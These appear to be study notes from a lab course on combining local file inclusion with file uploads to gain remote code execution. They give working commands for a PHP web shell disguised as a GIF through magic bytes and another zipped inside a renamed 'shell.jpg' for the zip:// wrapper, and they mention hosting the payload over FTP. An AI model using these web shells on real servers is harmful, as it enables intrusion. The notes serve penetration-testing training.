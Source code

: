 That will make the target fetch and execute `shell.php`, running the `id` command.

we can also host the malicious file using FTP( pyftplib in python) in case the firewall is blocking http or https connections 

# LFI & File Uploads

This is basically how we can upload files to the backend server and grant access with a malicious type of upload, LFI comes in handy here because we can include the malicious upload to get a reverse shell for example or simpler , for remote code execution ( to get a foothold in general) 

## Image Upload

Image upload is very common in most modern web applications, as uploading images is widely regarded as safe if the upload function is securely coded. However, as discussed earlier, the vulnerability, in this case, is not in the file upload form but the file inclusion functionality.

### Crafting

Our first step is to create a malicious image containing a PHP web shell code that still looks and works as an image. So, we will use an allowed image extension in our file name (e.g. `shell.gif`), and should also include the image magic bytes at the beginning of the file content (e.g. `GIF8`), just in case the upload form checks for both the extension and content type as well. We can do so as follows:

LFI and File Uploads

```bash
CSmarwen@htb[/htb]$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

Like I was saying earlier after uploading the file we can go ahead and include so that it gets executed by the backend server and we can reach rce 

## Zip Upload

The previous technique is reliable across frameworks so long as the vulnerable function actually **executes** included files. Sometimes PHP-specific wrappers offer alternate ways to achieve the same result when the basic approach fails. One such option is the **zip://** wrapper, which can execute PHP contained inside an archive — but note it’s **not enabled by default**, so it won’t work everywhere.

Workflow (quick):

1. Create a tiny PHP web shell.
2. Compress it into an archive but give the archive an innocuous extension (e.g. `shell.jpg`).
3. Use the zip wrapper to include the PHP from the archive via the LFI.

Example to create the shell and zip it:

```bash
# create a simple web shell and package it inside shell.jpg
echo '<?php system($_GET["cmd"]); ?>' > shell.php
zip shell.jpg shell.php

```
